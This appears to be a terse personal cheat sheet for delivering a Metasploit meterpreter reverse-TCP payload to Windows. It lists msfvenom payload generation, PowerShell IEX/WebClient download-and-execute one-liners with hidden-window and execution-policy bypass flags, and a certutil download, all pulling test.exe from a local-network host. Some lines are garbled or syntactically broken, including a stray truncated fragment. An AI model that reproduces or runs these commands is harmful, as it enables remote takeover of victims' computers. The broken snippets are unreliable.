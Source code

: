 #Using MSF Venom Generate a simple payload

-p windows/x64/meterpreter_reverse_tcp 

#Set up a http.server and choose an IEX to download.  I've been using certutil
IEX(New-Object Net.WebClient).downloadString('http://192.168.80.129:8003/test.exe');Start-Process ("test.exe")

IEX (New-Object Net.WebClient).downloadFile('http://192.168.80.129:8003/test.exe');Start-Process ("test.exe")

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command 

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.80.129:8003/test.exe',"$env:C:\tmp\$ProcName");Start-Process ("$env:APPDATA\test.exe")

Net.WebClient).downlo


certutil -urlcache -split -f http://192.168.80.129:8000/test.exe
Start-Process test.exe